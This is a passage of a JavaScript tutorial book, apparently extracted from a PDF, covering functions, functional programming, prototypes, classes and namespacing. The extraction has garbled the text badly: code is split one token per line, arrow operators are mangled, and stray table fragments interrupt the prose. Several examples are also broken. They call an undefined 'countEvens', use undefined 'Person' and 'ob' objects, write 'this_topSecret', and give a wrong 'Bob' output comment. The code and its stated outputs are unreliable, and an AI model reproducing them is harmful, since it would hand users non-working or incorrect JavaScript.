**function**

**(**

**\...**

**parm**

**)**

**{**

**}**

In ES6, the \... syntax when used in the declaration of a function\'s
parameters transforms the variable to its right into a single object
containing all the remaining parameters provided after the declared
ones. This allows the function to be invoked with an unlimited number
of arguments, which will become part of this variable:

*// -\object: 123*

(

**function**

(

a

,

\...

b

)

{

console.

log

(

**typeof**

b

\+

\': \'

\+

b

\[

0

\]

\+

b

\[

1

\]

\+

b

\[

2

\]

)

}

)

(

0

,

1

,

\'2\'

,

\[

3

\]

,

{

i

:

4

}

)

;

  
  **function_name**                           **(**   **\...varb**
   - 

  

**Spread parameters: );**
>
In ES6, the \... syntax can also be used when invoking a function by
placing an object/variable to its right. This allows that object\'s
elements to be passed into that function as a single object:

**let**

nums

=

\[

2

,

42

,-

1

\]

;

console.

log

(

\...

\[

\'a\'

,

\'b\'

,

\'c\'

\]

,

Math

.

max

(

\...

nums

)

)

;

*// -\a b c 42*

## Section 19.13: Function Composition

Composing multiple functions into one is a functional programming
common practice;
>
composition makes a pipeline through which our data will transit and
get modified simply working on the functioncomposition (just like
snapping pieces of a track together)\...
>
you start out with some single responsibility functions:

Version ≥ 6 **const** capitalize = x =\x.replace(*/\^\\w/*, m =\>
m.toUpperCase()); **const** sign = x =\x + \',**\\n**made with love\';

and easily create a transformation track: Version ≥ 6

**const**

formatText

=

compose

(

capitalize

,

sign

)

;

formatText

(

\'this is an example\'

)

*//This is an example,*

*//made with love*

N.B. Composition is achieved through a utility function usually called
compose as in our example.
>
Implementation of compose are present in many JavaScript utility
libraries ([lodash](https://lodash.com/docs#flow),
[rambda](http://ramdajs.com/), etc.) but you can also start out with a
simple implementation such as:

Version ≥ 6

**const**

compose

=

(

\...

funs

)

=\>

x

=\>

funs.

reduce

(

(

ac

,

f

)

=\>

f

(

ac

)

,

x

)

;

## Section 19.14: Get the name of a function object

Version ≥ 6 **ES6**:

myFunction.

name

[Explanation on
MDN](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/name).
As of 2015 works in Node.js and all major browsers except IE.

Version ≥ 5

**ES5**:
>
If you have a reference to the function, you can do:

**function**

functionName

(

func

)

{

*// Match:*

*// - \^ the beginning of the string*

*// - function the word \'function\'*

*// - \\s+ at least some white space*

*// - (\[\\w\\\$\]+) capture one or more valid JavaScript identifier
characters*

*// - \\( followed by an opening brace*

*//*

**var**

result

=

*/\^function\\s+(\[\\w\\\$\]+)\\(/*

.

exec

(

func.

toString

(

)

)

**return**

result

?

result

\[

1

\]

:

\'\'

}

## Section 19.15: Recursive Function

A recursive function is simply a function, that would call itself.

**function**

factorial

(

n

)

{

**if**

(

n

\<=

1

)

{

**return**

1

;

}

**return**

n

\*

factorial

(

n

\-

1

)

;

}

The above function shows a basic example of how to perform a recursive
function to return a factorial.
>
Another example, would be to retrieve the sum of even numbers in an
array.

**function**

countEvenNumbers

(

arr

)

{

*// Sentinel value. Recursion stops on empty array.*

**if**

(

arr.

length

\<

1

)

{

**return**

0

;

}

*// The shift() method removes the first element from an array*

*// and returns that element. This method changes the length of the
array.*

**var**

value

=

arr.

shift

(

)

;

*// \`value % 2 === 0\` tests if the number is even or odd*

*// If it\'s even we add one to the result of counting the remainder of*

*// the array. If it\'s odd, we add zero to it.*

**return**

(

(

value

\%

2

===

0

)

?

1

:

0

)

\+

countEvens

(

arr

)

;

}

It is important that such functions make some sort of sentinel value
check to avoid infinite loops. In the first example above, when n is
less than or equal to 1, the recursion stops, allowing the result of
each call to be returned back up the call stack.

## Section 19.16: Using the Return Statement

The return statement can be a useful way to create output for a
function. The return statement is especially useful if you do not know
in which context the function will be used yet.

*//An example function that will take a string as input and return*

*//the first character of the string.*

**function**

firstChar

(

stringIn

)

{

**return**

stringIn.

charAt

(

0

)

;

}

Now to use this function, you need to put it in place of a variable
somewhere else in your code:
>
**Using the function result as an argument for another function:**

console.

log

(

firstChar

(

\"Hello world\"

)

)

;

*Console output will be:*

\>

H

**The return statement ends the function**
>
If we modify the function in the beginning, we can demonstrate that
the return statement ends the function.

**function**

firstChar

(

stringIn

)

{

console.

log

(

\"The first action of the first char function\"

)

;

**return**

stringIn.

charAt

(

0

)

;

console.

log

(

\"The last action of the first char function\"

)

;

}

Running this function like so will look like this:

console.

log

(

firstChar

(

\"JS\"

)

)

;

*Console output:*

\>

The first action of the first

char

**function**

\>

J

It will not print the message after the return statement, as the
function has now been ended.
>
**Return statement spanning multiple lines:**
>
In JavaScript, you can normally split up a line of code into many
lines for readability purposes or organization. This is valid
JavaScript:

**var**

name

=

\"bob\"

,

age

=

18

;

When JavaScript sees an incomplete statement like **var** it looks to
the next line to complete itself. However, if you make the same
mistake with the **return** statement, you will not get what you
expected.

**return**

\"Hi, my name is \"

\+

name

\+

\". \"

\+

\"I\'m \"

\+

age

\+

\" years old.\"

;

This code will return **undefined** because **return** by itself is a
complete statement in JavaScript, so it will not look to the next line
to complete itself. If you need to split up a **return** statement
into multiple lines, put a value next to return before you split it
up, like so.

**return**

\"Hi, my name is \"

\+

name

\+

\". \"

\+

\"I\'m \"

\+

age

\+

\" years old.\"

;

## Section 19.17: Functions as a variable

A normal function declaration looks like this:

**function**

foo

(

)

{

}

A function defined like this is accessible from anywhere within its
context by its name. But sometimes it can be useful to treat function
references like object references. For example, you can assign an
object to a variable based on some set of conditions and then later
retrieve a property from one or the other object:

**var**

name

=

\'Cameron\'

;

**var**

spouse

;

**if**

(

name

===

\'Taylor\'

)

spouse

=

{

name

:

\'Jordan\'

}

;

**else**

**if**

(

name

===

\'Cameron\'

)

spouse

=

{

name

:

\'Casey\'

}

;

**var**

spouseName

=

spouse.

name

;

In JavaScript, you can do the same thing with functions:

*// Example 1*

**var**

hashAlgorithm

=

\'sha1\'

;

**var**

hash

;

**if**

(

hashAlgorithm

===

\'sha1\'

)

hash

=

**function**

(

value

)

{

*/\*\...\*/*

}

;

**else**

**if**

(

hashAlgorithm

===

\'md5\'

)

hash

=

**function**

(

value

)

{

*/\*\...\*/*

}

;

hash

(

\'Fred\'

)

;

In the example above, hash is a normal variable. It is assigned a
reference to a function, after which the function it references can be
invoked using parentheses, just like a normal function declaration.
>
The example above references anonymous functions\... functions that do
not have their own name. You can also use variables to refer to named
functions. The example above could be rewritten like so:

*// Example 2*

**var**

hashAlgorithm

=

\'sha1\'

;

**var**

hash

;

**if**

(

hashAlgorithm

===

\'sha1\'

)

hash

=

sha1Hash

;

**else**

**if**

(

hashAlgorithm

===

\'md5\'

)

hash

=

md5Hash

;

hash

(

\'Fred\'

)

;

**function**

md5Hash

(

value

)

{

*// \...*

}

**function**

sha1Hash

(

value

)

{

*// \...*

}

Or, you can assign function references from object properties:

*// Example 3*

**var**

hashAlgorithms

=

{

sha1

:

**function**

(

value

)

{

*/\*\*/*

}

,

md5

:

**function**

(

value

)

{

*/\*\*/*

}

}

;

**var**

hashAlgorithm

=

\'sha1\'

;

**var**

hash

;

**if**

(

hashAlgorithm

===

\'sha1\'

)

hash

=

hashAlgorithms.

sha1

;

**else**

**if**

(

hashAlgorithm

===

\'md5\'

)

hash

=

hashAlgorithms.

md5

;

hash

(

\'Fred\'

)

;

You can assign the reference to a function held by one variable to
another by omitting the parentheses. This can result in an
easy-to-make mistake: attempting to assign the return value of a
function to another variable, but accidentally assigning the reference
to the function.

*// Example 4*

**var**

a

=

getValue

;

**var**

b

=

a

;

*// b is now a reference to getValue.*

**var**

c

=

b

(

)

;

*// b is invoked, so c now holds the value returned by getValue (41)*

**function** getValue(){ **return** 41; }
>
A reference to a function is like any other value. As you\'ve seen, a
reference can be assigned to a variable, and that variable\'s
reference value can be subsequently assigned to other variables. You
can pass around references to functions like any other value,
including passing a reference to a function as the return value of
another function. For example:

*// Example 5*

*// getHashingFunction returns a function, which is assigned*

*// to hash for later use:*

**var**

hash

=

getHashingFunction

(

\'sha1\'

)

;

*// \...*

hash

(

\'Fred\'

)

;

*// return the function corresponding to the given algorithmName*

**function**

getHashingFunction

(

algorithmName

)

{

*// return a reference to an anonymous function*

**if**

(

algorithmName

===

\'sha1\'

)

**return**

**function**

(

value

)

{

*/\*\*/*

}

;

*// return a reference to a declared function*

**else**

**if**

(

algorithmName

===

\'md5\'

)

**return**

md5

;

}

**function**

md5Hash

(

value

)

{

*// \...*

}

You don\'t need to assign a function reference to a variable in order
to invoke it. This example, building off example 5, will call
getHashingFunction and then immediately invoke the returned function
and pass its return value to hashedValue.

*// Example 6*

**var**

hashedValue

=

getHashingFunction

(

\'sha1\'

)

(

\'Fred\'

)

;

**A Note on Hoisting**
>
Keep in mind that, unlike normal function declarations, variables that
reference functions are not \"hoisted\". In example 2, the md5Hash and
sha1Hash functions are defined at the bottom of the script, but are
available everywhere immediately. No matter where you define a
function, the interpreter \"hoists\" it to the top of its scope,
making it immediately available. This is **not** the case for variable
definitions, so code like the following will break:

**var**

functionVariable

;

hoistedFunction

(

)

;

*// works, because the function is \"hoisted\" to the top of its scope*

functionVariable

(

)

;

*// error: undefined is not a function.*

**function**

hoistedFunction

(

)

{

}

functionVariable

=

**function**

(

)

{

}

;

# Chapter 20: Functional JavaScript

## Section 20.1: Higher-Order Functions

In general, functions that operate on other functions, either by
taking them as arguments or by returning them (or both), are called
higher-order functions.
>
A higher-order function is a function that can take another function
as an argument. You are using higher-order functions when passing
callbacks.

**function**

iAmCallbackFunction

(

)

{

console.

log

(

\"callback has been invoked\"

)

;

}

**function**

iAmJustFunction

(

callbackFn

)

{

*// do some stuff \...*

*// invoke the callback function.*

callbackFn

(

)

;

}

*// invoke your higher-order function with a callback function.*

iAmJustFunction

(

iAmCallbackFunction

)

;

A higher-order function is also a function that returns another
function as its result.

**function**

iAmJustFunction

(

)

{

*// do some stuff \...*

*// return a function.*

**return**

**function**

iAmReturnedFunction

(

)

{

console.

log

(

\"returned function has been invoked\"

)

;

}

}

*// invoke your higher-order function and its returned function.*

iAmJustFunction

(

)

(

)

;

## Section 20.2: Identity Monad

This is an example of an implementation of the identity monad in
JavaScript, and could serve as a starting point to create other
monads.
>
Based on the [conference by Douglas Crockford on monads and
gonads](https://www.youtube.com/watch?v=b0EF0VTs9Dc)
>
Using this approach reusing your functions will be easier because of
the flexibility this monad provides, and composition nightmares:

f

(

g

(

h

(

i

(

j

(

k

(

value

)

,

j1

)

,

i2

)

,

h1

,

h2

)

,

g1

,

g2

)

,

f1

,

f2

)

readable, nice and clean:

identityMonad

(

value

)

.

bind

(

k

)

.

bind

(

j

,

j1

,

j2

)

.

bind

(

i

,

i2

)

.bind(h, h1, h2)
>
.bind(g, g1, g2)
>
.bind(f, f1, f2);

**function**

identityMonad

(

value

)

{

**var**

monad

=

Object

.

create

(

**null**

)

;

*// func should return a monad*

monad.

bind

=

**function**

(

func

,

\...

args

)

{

**return**

func

(

value

,

\...

args

)

;

}

;

*// whatever func does, we get our monad back*

monad.

call

=

**function**

(

func

,

\...

args

)

{

func

(

value

,

\...

args

)

;

**return**

identityMonad

(

value

)

;

}

;

*// func doesn\'t have to know anything about monads*

monad.

apply

=

**function**

(

func

,

\...

args

)

{

**return**

identityMonad

(

func

(

value

,

\...

args

)

)

;

}

;

*// Get the value wrapped in this monad*

monad.

value

=

**function**

(

)

{

**return**

value

;

}

;

**return**

monad

;

}

;

It works with primitive values

**var**

value

=

\'foo\'

,

f

=

x

=\>

x

\+

\' changed\'

,

g

=

x

=\>

x

\+

\' again\'

;

identityMonad

(

value

)

.

apply

(

f

)

.

apply

(

g

)

.

bind

(

alert

)

;

*// Alerts \'foo changed again\'*

And also with objects

**var**

value

=

{

foo

:

\'foo\'

}

,

f

=

x

=\>

identityMonad

(

Object

.

assign

(

x

,

{

foo

:

\'bar\'

}

)

)

,

g

=

x

=\>

Object

.

assign

(

x

,

{

bar

:

\'foo\'

}

)

,

h

=

x

=\>

console.

log

(

\'foo: \'

\+

x\.

foo

\+

\', bar: \'

\+

x\.

bar

)

;

identityMonad

(

value

)

.

bind

(

f

)

.

apply

(

g

)

.

bind

(

h

)

;

*// Logs \'foo: bar, bar: foo\'*

Let\'s try everything:
>
**var** add = (x, \...args) =\x + args.reduce((r, n) =\r + n, 0),
multiply = (x, \...args) =\x \* args.reduce((r, n) =\r \* n, 1),

divideMonad

=

(

x

,

\...

args

)

=\>

identityMonad

(

x

/

multiply

(

\...

args

)

)

,

log

=

x

=\>

console.

log

(

x

)

,

substract

=

(

x

,

\...

args

)

=\>

x

\-

add

(

\...

args

)

;

identityMonad

(

100

)

.

apply

(

add

,

10

,

29

,

13

)

.

apply

(

multiply

,

2

)

.

bind

(

divideMonad

,

2

)

.

apply

(

substract

,

67

,

34

)

.

apply

(

multiply

,

1239

)

.

bind

(

divideMonad

,

20

,

54

,

2

)

.

apply

(

Math

.

round

)

.

call

(

log

)

;

*// Logs 29*

## Section 20.3: Pure Functions

A basic principle of functional programming is that it **avoids
changing** the application state (statelessness) and variables outside
its scope (immutability).
>
Pure functions are functions that:
>
with a given input, always return the same output they do not rely on
any variable outside their scope
>
they do not modify the state of the application (**no side effects**)
>
Let\'s take a look at some examples:

Pure functions must not change any variable outside their scope

**Impure function**

**let**

obj

=

{

a

:

0

}

**const**

impure

=

(

input

)

=\>

{

*// Modifies input.a*

input.

a

=

input.

a

\+

1

;

**return**

input.

a

;

}

**let**

b

=

impure

(

obj

)

console.

log

(

obj

)

*// Logs { \"a\": 1 }*

console.

log

(

b

)

*// Logs 1*

  
  obj.
  

  

The function changed the a value that is outside its scope.
>
**Pure function**

**let**

obj

=

{

a

:

0

}

**const**

pure

=

(

input

)

=\>

{

*// Does not modify obj*

**let**

output

=

input.

a

\+

1

;

**return**

output

;

}

**let** b = pure(obj) console.log(obj) *// Logs { \"a\": 0 }*
console.log(b) *// Logs 1*
>
The function did not change the object obj values

Pure functions must not rely on variables outside their scope

**Impure function**

**let**

a

=

1

;

**let**

impure

=

(

input

)

=\>

{

*// Multiply with variable outside function scope*

**let**

output

=

input

\*

a

;

**return**

output

;

}

console.

log

(

impure

(

2

)

)

*// Logs 2*

a

++

;

*// a becomes equal to 2*

console.

log

(

impure

(

2

)

)

*// Logs 4*

This **impure** function rely on variable a that is defined outside
its scope. So, if a is modified, impure\'s function result will be
different.
>
**Pure function**

**let**

pure

=

(

input

)

=\>

{

**let**

a

=

1

;

*// Multiply with variable inside function scope*

**let**

output

=

input

\*

a

;

**return**

output

;

}

console.

log

(

pure

(

2

)

)

*// Logs 2*

The pure\'s function result **does not rely** on any variable outside
its scope.

## Section 20.4: Accepting Functions as Arguments

**function**

transform

(

fn

,

arr

)

{

**let**

result

=

\[

\]

;

**for**

(

**let**

el of arr

)

{

result.

push

(

fn

(

el

)

)

;

*// We push the result of the transformed item to result*

}

**return**

result

;

}

console.

log

(

transform

(

x

=\>

x

\*

2

,

\[

1

,

2

,

3

,

4

\]

)

)

;

*// \[2, 4, 6, 8\]*

As you can see, our transform function accepts two parameters, a
function and a collection. It will then iterate the collection, and
push values onto the result, calling fn on each of them.

  -
  Array              .   **prototype**                     .   map
  -    

  -

Looks familiar? This is very similar to how () works!

console.

log

(

\[

1

,

2

,

3

,

4

\]

.

map

(

x

=\>

x

\*

2

)

)

;

*// \[2, 4, 6, 8\]*

# Chapter 21: Prototypes, objects

In the conventional JS there are no class instead we have prototypes.
Like the class, prototype inherits the properties including the
methods and the variables declared in the class. We can create the new
instance of the object whenever it is necessary by,
Object.create(PrototypeName); (we can give the value for the
constructor as well)

## Section 21.1: Creation and initialising Prototype

**var**

Human

=

**function**

(

)

{

**this**

.

canWalk

=

**true**

;

**this**

.

canSpeak

=

**true**

;

*//*

}

;

Person.

**prototype**

.

greet

=

**function**

(

)

{

**if**

(

**this**

.

canSpeak

)

{

*// checks whether this prototype has instance of speak*

**this**

.

name

=

\"Steve\"

console.

log

(

\'Hi, I am \'

\+

**this**

.

name

)

;

}

**else**

{

console.

log

(

\'Sorry i can not speak\'

)

;

}

}

;

The prototype can be instantiated like this

obj

=

Object

.

create

(

Person.

**prototype**

)

;

ob.

greet

(

)

;

We can pass value for the constructor and make the boolean true and
false based on the requirement.
>
Detailed Explanation

**var**

Human

=

**function**

(

)

{

**this**

.

canSpeak

=

**true**

;

}

;

*// Basic greet function which will greet based on the canSpeak flag*

Human.

**prototype**

.

greet

=

**function**

(

)

{

**if**

(

**this**

.

canSpeak

)

{

console.

log

(

\'Hi, I am \'

\+

**this**

.

name

)

;

}

}

;

**var**

Student

=

**function**

(

name

,

title

)

{

Human.

call

(

**this**

)

;

*// Instantiating the Human object and getting the memebers of the
class*

**this**

.

name

=

name

;

*// inheriting the name from the human class*

**this**

.

title

=

title

;

*// getting the title from the called function*

}

;

Student.

**prototype**

=

Object

.

create

(

Human.

**prototype**

)

;

Student.

**prototype**

.

constructor

=

Student

;

Student.

**prototype**

.

greet

=

**function**

(

)

{

**if**

(

**this**

.

canSpeak

)

{

console.

log

(

\'Hi, I am \'

\+

**this**

.

name

\+

\', the \'

\+

**this**

.

title

)

;

}

}

;

**var**

Customer

=

**function**

(

name

)

{

Human.

call

(

**this**

)

;

*// inheriting from the base class*

**this**

.

name

=

name

;

}

;

Customer.

**prototype**

=

Object

.

create

(

Human.

**prototype**

)

;

*// creating the object*

Customer.

**prototype**

.

constructor

=

Customer

;

**var**

bill

=

**new**

Student

(

\'Billy\'

,

\'Teacher\'

)

;

**var**

carter

=

**new**

Customer

(

\'Carter\'

)

;

**var**

andy

=

**new**

Student

(

\'Andy\'

,

\'Bill\'

)

;

**var**

virat

=

**new**

Customer

(

\'Virat\'

)

;

bill.

greet

(

)

;

*// Hi, I am Bob, the Teacher*

carter.

greet

(

)

;

*// Hi, I am Carter*

andy.

greet

(

)

;

*// Hi, I am Andy, the Bill*

virat.

greet

(

)

;

# Chapter 22: Classes

## Section 22.1: Class Constructor

The fundamental part of most classes is its constructor, which sets up
each instance\'s initial state and handles any parameters that were
passed when calling **new**.
>
It\'s defined in a class block as though you\'re defining a method
named constructor, though it\'s actually handled as a special case.

class

MyClass

{

constructor

(

option

)

{

console.

log

(

\`Creating instance using \$

{

option

}

option.\`

)

;

**this**

.

option

=

option

;

}

}

Example usage: **const** foo = **new** MyClass(\'speedy\'); *// logs:
\"Creating instance using speedy option\"*

A small thing to note is that a class constructor cannot be made
static via the **static** keyword, as described below for other
methods.

## Section 22.2: Class Inheritance

Inheritance works just like it does in other object-oriented
languages: methods defined on the superclass are accessible in the
extending subclass.

  
  super
  

  

If the subclass declares its own constructor then it must invoke the
parents constructor via () before it can access **this**.

class

SuperClass

{

constructor

(

)

{

**this**

.

logger

=

console.

log

;

}

log

(

)

{

**this**

.

logger

(

\`Hello \$

{

**this**

.

name

}

\`

)

;

}

}

class

SubClass

extends

SuperClass

{

constructor

(

)

{

super

(

)

;

**this**

.

name

=

\'subclass\'

;

}

}

**const**

subClass

=

**new**

SubClass

(

)

;

subClass.

log

(

)

;

*// logs: \"Hello subclass\"*

## Section 22.3: Static Methods

Static methods and properties are defined on *the class/constructor
itself*, not on instance objects. These are specified in a class
definition by using the **static** keyword.

class

MyClass

{

**static**

myStaticMethod

(

)

{

**return**

\'Hello\'

;

}

**static**

**get**

myStaticProperty

(

)

{

**return**

\'Goodbye\'

;

}

}

console.

log

(

MyClass.

myStaticMethod

(

)

)

;

*// logs: \"Hello\"*

console.

log

(

MyClass.

myStaticProperty

)

;

*// logs: \"Goodbye\"*

We can see that static properties are not defined on object instances:

**const**

myClassInstance

=

**new**

MyClass

(

)

;

console.

log

(

myClassInstance.

myStaticProperty

)

;

*// logs: undefined*

However, they *are* defined on subclasses:

class

MySubClass

extends

MyClass

{

}

;

console.

log

(

MySubClass.

myStaticMethod

(

)

)

;

*// logs: \"Hello\"*

console.

log

(

MySubClass.

myStaticProperty

)

;

*// logs: \"Goodbye\"*

## Section 22.4: Getters and Setters

Getters and setters allow you to define custom behaviour for reading
and writing a given property on your class. To the user, they appear
the same as any typical property. However, internally a custom
function you provide is used to determine the value when the property
is accessed (the getter), and to perform any necessary changes when
the property is assigned (the setter).
>
In a class definition, a getter is written like a no-argument method
prefixed by the **get** keyword. A setter is similar, except that it
accepts one argument (the new value being assigned) and the **set**
keyword is used instead.

  
  name
  

  

  
  names\_
  

  

Here\'s an example class which provides a getter and setter for its .
property. Each time it\'s assigned, we\'ll record the new name in an
internal . array. Each time it\'s accessed, we\'ll return the latest
name.

class

MyClass

{

constructor

(

)

{

**this**

.

names\_

=

\[

\]

;

}

**set**

name

(

value

)

{

**this**

.

names\_

.

push

(

value

)

;

}

**get**

name

(

)

{

**return**

**this**

.

names\_

\[

**this**

.

names\_

.

length

\-

1

\]

;

}

}

**const**

myClassInstance

=

**new**

MyClass

(

)

;

myClassInstance.

name

=

\'Joe\'

;

myClassInstance.

name

=

\'Bob\'

;

console.

log

(

myClassInstance.

name

)

;

*// logs: \"Bob\"*

console.

log

(

myClassInstance.

names\_

)

;

*// logs: \[\"Joe\", \"Bob\"\]*

If you only define a setter, attempting to access the property will
always return **undefined**.

**const**

classInstance

=

**new**

class

{

**set**

prop

(

value

)

{

console.

log

(

\'setting\'

,

value

)

;

}

}

;

classInstance.

prop

=

10

;

*// logs: \"setting\", 10*

console.

log

(

classInstance.

prop

)

;

*// logs: undefined*

If you only define a getter, attempting to assign the property will
have no effect.

**const**

classInstance

=

**new**

class

{

**get**

prop

(

)

{

**return**

5

;

}

}

;

classInstance.

prop

=

10

;

console.

log

(

classInstance.

prop

)

;

*// logs: 5*

## Section 22.5: Private Members

JavaScript does not technically support private members as a language
feature. Privacy - [described by Douglas
Crockford](http://javascript.crockford.com/private.html) - gets
emulated instead via closures (preserved function scope) that will be
generated each with every instantiation call of a constructor
function.
>
The Queue example demonstrates how, with constructor functions, local
state can be preserved and made accessible too via privileged methods.

class

Queue

{

constructor

(

)

{

*// - does generate a closure with each instantiation.*

**const**

list

=

\[

\]

;

*// - local state (\"private member\").*

**this**

.

enqueue

=

**function**

(

type

)

{

*// - privileged public method*

*// accessing the local state*

list.

push

(

type

)

;

*// \"writing\" alike.*

**return**

type

;

}

;

**this**

.

dequeue

=

**function**

(

)

{

*// - privileged public method*

*// accessing the local state*

**return**

list.

shift

(

)

;

*// \"reading / writing\" alike.*

}

;

}

}

**var**

q

=

**new**

Queue

;

*//*

*//*

q\.

enqueue

(

9

)

;

*// \... first in \...*

q\.

enqueue

(

8

)

;

*//*

q\.

enqueue

(

7

)

;

*//*

*//*

console.

log

(

q\.

dequeue

(

)

)

;

*// 9 \... first out.*

console.

log

(

q\.

dequeue

(

)

)

;

*// 8*

console.

log

(

q\.

dequeue

(

)

)

;

*// 7*

console.

log

(

q

)

;

*// {}*

console.

log

(

Object

.

keys

(

q

)

)

;

*// \[\"enqueue\",\"dequeue\"\]*

With every instantiation of a Queue type the constructor generates a
closure.

  
  Object                                 .      keys
    

  

Thus both of a Queue type\'s own methods enqueue and dequeue (see (q))
still do have access to list that continues to *live* in its enclosing
scope that, at construction time, has been preserved.
>
Making use of this pattern - emulating private members via privileged
public methods - one should keep in mind that, with every instance,
additional memory will be consumed for every *own property* method
(for it is code that can\'t be shared/reused). The same is true for
the amount/size of state that is going to be stored within such a
closure.

## Section 22.6: Methods

Methods can be defined in classes to perform a function and optionally
return a result. They can receive arguments from the caller.

class

Something

{

constructor

(

data

)

{

**this**

.

data

=

data

}

doSomething

(

text

)

{

**return**

{

data

:

**this**

.

data

,

text

}

}

}

**var**

s

=

**new**

Something

(

{

}

)

s\.

doSomething

(

\"hi\"

)

*// returns: { data: {}, text: \"hi\" }*

## Section 22.7: Dynamic Method Names

There is also the ability to evaluate expressions when naming methods
similar to how you can access an objects\' properties with \[\]. This
can be useful for having dynamic property names, however is often used
in conjunction with Symbols.

**let**

METADATA

=

Symbol

(

\'metadata\'

)

;

class

Car

{

constructor

(

make

,

model

)

{

**this**

.

make

=

make

;

**this**

.

model

=

model

;

}

*// example using symbols*

\[

METADATA

\]

(

)

{

**return**

{

make

:

**this**

.

make

,

model

:

**this**

.

model

}

;

}

*// you can also use any javascript expression*

*// this one is just a string, and could also be defined with simply
add()*

\[

\"add\"

\]

(

a

,

b

)

{

**return**

a

\+

b

;

}

*// this one is dynamically evaluated*

\[

1

\+

2

\]

(

)

{

**return**

\"three\"

;

}

}

**let**

MazdaMPV

=

**new**

Car

(

\"Mazda\"

,

\"MPV\"

)

;

MazdaMPV.

add

(

4

,

5

)

;

*// 9*

MazdaMPV

\[

3

\]

(

)

;

*// \"three\"*

MazdaMPV

\[

METADATA

\]

(

)

;

*// { make: \"Mazda\", model: \"MPV\" }*

## Section 22.8: Managing Private Data with Classes

One of the most common obstacles using classes is finding the proper
approach to handle private states. There are 4 common solutions for
handling private states:
>
**Using Symbols**
>
Symbols are new primitive type introduced on in ES2015, as defined at
[MDN](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/Symbol)

A symbol is a unique and immutable data type that may be used as an
identifier for object properties.

When using symbol as a property key, it is not enumerable.

  -
  **for** **var** **in**        or       Object            .   keys
      

  -

As such, they won\'t be revealed using .
>
Thus we can use symbols to store private data.

**const**

topSecret

=

Symbol

(

\'topSecret\'

)

;

*// our private key; will only be accessible on the scope of*

*the module file*

export

class

SecretAgent

{

constructor

(

secret

)

{

**this**

\[

topSecret

\]

=

secret

;

*// we have access to the symbol key (closure)*

**this**

.

coverStory

=

\'just a simple gardner\'

;

**this**

.

doMission

=

(

)

=\>

{

figureWhatToDo

(

topSecret

\[

topSecret

\]

)

;

*// we have access to topSecret*

}

;

}

}

Because symbols are unique, we must have reference to the original
symbol to access the private property.

import

{

SecretAgent

}

from

\'SecretAgent.js\'

**const** agent = **new** SecretAgent(\'steal all the ice cream\');
*// ok let\'s try to get the secret out of him!*
>
Object.keys(agent); *// \[\'coverStory\'\] only cover story is public,
our secret is kept.*
>
agent\[Symbol(\'topSecret\')\]; *// undefined, as we said, symbols are
always unique, so only the original symbol will help us to get the
data.*

  
  Object          .   getOwnPropertySymbols
    -

  

But it\'s not 100% private; let\'s break that agent down! We can use
the method to get the object symbols.
>
**const** secretKeys = Object.getOwnPropertySymbols(agent);
agent\[secretKeys\[0\]\] *// \'steal all the ice cream\' , we got the
secret.*
>
**Using WeakMaps**
>
WeakMap is a new type of object that have been added for es6.
>
As defined on
[MDN](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/Symbolhttps:/developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/WeakMap)
>
The WeakMap object is a collection of key/value pairs in which the
keys are weakly referenced. The keys must be objects and the values
can be arbitrary values.
>
Another important feature of WeakMap is, as defined on
[MDN](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/WeakMap).
>
The key in a WeakMap is held weakly. What this means is that, if there
are no other strong references to the key, the entire entry will be
removed from the WeakMap by the garbage collector.
>
The idea is to use the WeakMap, as a static map for the whole class,
to hold each instance as key and keep the private data as a value for
that instance key.
>
Thus only inside the class will we have access to the WeakMap
collection.
>
Let\'s give our agent a try, with WeakMap:

**const**

topSecret

=

**new**

WeakMap

(

)

;

*// will hold all private data of all instances.*

export

class

SecretAgent

{

constructor

(

secret

)

{

topSecret.

**set**

(

**this**

,

secret

)

;

*// we use this, as the key, to set it on our instance private*

*data*

**this**

.

coverStory

=

\'just a simple gardner\'

;

**this**

.

doMission

=

(

)

=\>

{

figureWhatToDo

(

topSecret.

**get**

(

**this**

)

)

;

*// we have access to topSecret*

}

;

}

}

Because the const topSecret is defined inside our module closure, and
since we didn\'t bind it to our instance properties, this approach is
totally private, and we can\'t reach the agent topSecret.
>
**Define all methods inside the constructor**
>
The idea here is simply to define all our methods and members inside
the constructor and use the closure to access private members without
assigning them to **this**.

export

class

SecretAgent

{

constructor

(

secret

)

{

**const**

topSecret

=

secret

;

**this**

.

coverStory

=

\'just a simple gardner\'

;

**this**

.

doMission

=

(

)

=\>

{

figureWhatToDo

(

topSecret

)

;

*// we have access to topSecret*

}

;

}

}

In this example as well the data is 100% private and can\'t be reached
outside the class, so our agent is safe.
>
**Using naming conventions**
>
We will decide that any property who is private will be prefixed with
\_.
>
Note that for this approach the data isn\'t really private.

export

class

SecretAgent

{

constructor

(

secret

)

{

**this**

.\_topSecret

=

secret

;

*// it private by convention*

**this**

.

coverStory

=

\'just a simple gardner\'

;

**this**

.

doMission

=

(

)

=\>

{

figureWhatToDo

(

this_topSecret

)

;

}

;

}

}

## Section 22.9: Class Name binding

ClassDeclaration\'s Name is bound in different ways in different
scopes -

1.  The scope in which the class is defined - **let** binding

  
  class
  

  

2.  The scope of the class itself - within { and } in {} - **const**
    binding

class

Foo

{

*// Foo inside this block is a const binding*

}

*// Foo here is a let binding*

For example,

class

A

{

foo

(

)

{

A

=

**null**

;

*// will throw at runtime as A inside the class is a \`const\` binding*

}

}

A

=

**null**

;

*// will NOT throw as A here is a \`let\` binding*

This is not the same for a Function -

**function**

A

(

)

{

A

=

**null**

;

*// works*

}

A.

**prototype**

.

foo

=

**function**

foo

(

)

{

A

=

**null**

;

*// works*

}

A

=

**null**

;

*// works*

# Chapter 23: Namespacing

## Section 23.1: Namespace by direct assignment

*//Before: antipattern 3 global variables*

**var**

setActivePage

=

**function**

(

)

{

}

;

**var**

getPage

=

**function**

(

)

{

}

;

**var**

redirectPage

=

**function**

(

)

{

}

;

*//After: just 1 global variable, no function collision and more
meaningful function names*

**var**

NavigationNs

=

NavigationNs

\|\|

{

}

;

NavigationNs.

active

=

**function**

(

)

{

}

NavigationNs.

pagination

=

**function**

(

)

{

}

NavigationNs.

redirection

=

**function**

(

)

{

}

## Section 23.2: Nested Namespaces

When multiple modules are involved, avoid proliferating global names
by creating a single global namespace. From there, any sub-modules can
be added to the global namespace. (Further nesting will slow down
performance and add unnecessary complexity.) Longer names can be used
if name clashes are an issue:

**var**

